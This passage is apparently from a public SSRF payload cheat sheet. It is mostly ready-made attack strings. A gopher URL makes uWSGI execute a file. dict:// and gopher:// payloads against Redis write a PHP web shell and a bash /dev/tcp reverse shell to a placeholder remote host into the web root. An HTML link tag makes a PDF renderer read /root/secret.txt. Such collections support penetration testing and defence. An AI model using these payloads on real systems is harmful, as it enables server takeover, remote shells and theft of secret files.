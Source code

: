 ```powershell
gopher://localhost:8000/_%00%1A%00%00%0A%00UWSGI_FILE%0C%00/tmp/test.py
```

| Header    |           |             |
|-----------|-----------|-------------|
| modifier1 | (1 byte)  | 0 (%00)     |
| datasize  | (2 bytes) | 26 (%1A%00) |
| modifier2 | (1 byte)  | 0 (%00)     |

| Variable (UWSGI_FILE) |           |    |            |   |
|-----------------------|-----------|----|------------|---|
| key length            | (2 bytes) | 10 | (%0A%00)   |   |
| key data              | (m bytes) |    | UWSGI_FILE |   |
| value length          | (2 bytes) | 12 | (%0C%00)   |   |
| value data            | (n bytes) |    | /tmp/test.py   |   |
	

## SSRF exploiting Redis

> Redis is a database system that stores everything in RAM

```powershell
# Getting a webshell
url=dict://127.0.0.1:6379/CONFIG%20SET%20dir%20/var/www/html
url=dict://127.0.0.1:6379/CONFIG%20SET%20dbfilename%20file.php
url=dict://127.0.0.1:6379/SET%20mykey%20"<\x3Fphp system($_GET[0])\x3F>"
url=dict://127.0.0.1:6379/SAVE

# Getting a PHP reverse shell
gopher://127.0.0.1:6379/_config%20set%20dir%20%2Fvar%2Fwww%2Fhtml
gopher://127.0.0.1:6379/_config%20set%20dbfilename%20reverse.php
gopher://127.0.0.1:6379/_set%20payload%20%22%3C%3Fphp%20shell_exec%28%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FREMOTE_IP%2FREMOTE_PORT%200%3E%261%27%29%3B%3F%3E%22
gopher://127.0.0.1:6379/_save
```

## SSRF exploiting PDF file

![https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Server%20Side%20Request%20Forgery/Images/SSRF_PDF.png)

Example with [WeasyPrint by @nahamsec](https://www.youtube.com/watch?v=t5fB6OZsR6c&feature=emb_title)

```powershell
<link rel=attachment href="file:///root/secret.txt">
```

Example with PhantomJS 
